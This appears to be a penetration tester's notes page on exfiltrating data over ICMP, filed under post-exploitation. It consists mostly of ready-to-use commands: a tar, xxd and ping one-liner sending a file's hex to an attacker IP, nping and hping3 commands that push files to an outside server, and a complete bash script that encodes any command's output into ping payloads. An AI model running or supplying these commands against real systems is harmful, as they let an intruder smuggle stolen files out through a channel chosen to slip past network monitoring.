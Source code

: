 # Usage

## 01 - Living off the Land

```
$ tar zcf - file.txt | xxd -p -c 16 | while read line; do ping -p $line -c 1 -q <attacker_IP>; done 
```

## 02 - Nping

```
$ nping --icmp <attacker_IP> --data-string "file.txt" -c 1
```

## 03 - Hping3

https://www.commandlinefu.com/commands/view/12851/sending-a-file-over-icmp-with-hping

```
# hping3 -I <interface> -9 <IP> -e MYSIG > confidential.txt
```

The sender

```
# hping3 <server_IP> --icmp --sign MSGID1 -d 50 -c 1 --file a_file
```

### Sending to `tcpdump`

https://secforge.io/blog/hping3

https://www.phoenixinfosec.com/post/data-exfiltration-with-hping3

```
# hping3 -1 -E file.txt -u -d 1500 <server_IP>
```

## 04 - Bash Script

```bash
#!/bin/bash

echo "${@:2}"

if [[ -z "$1" ]] || [[ -z "$2" ]];
then
    echo "Usage: $0 <destination> <command>"
    exit 1
fi

DEST=$1
CMD=${@:2}
OUTPUT=$($CMD | xxd -p -c 16)

ORG=$IFS
IFS=$(echo -en "\n\b")

for ROW in ${OUTPUT[@]}
do
    if [[ ${#ROW} = 32 ]]; then
        PAYLOAD=$ROW
    else
        PAD=$(printf "%0$(expr 32 - ${#ROW})d" 0)
        PAYLOAD=$ROW$PAD
    fi
    ping -c 1 -p $PAYLOAD $DEST
done
```

Usage

```
$ chmod +x icmp.sh

$ ./icmp.sh <IP> file.txt
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Linux/Network Protocols/ICMP/Server]]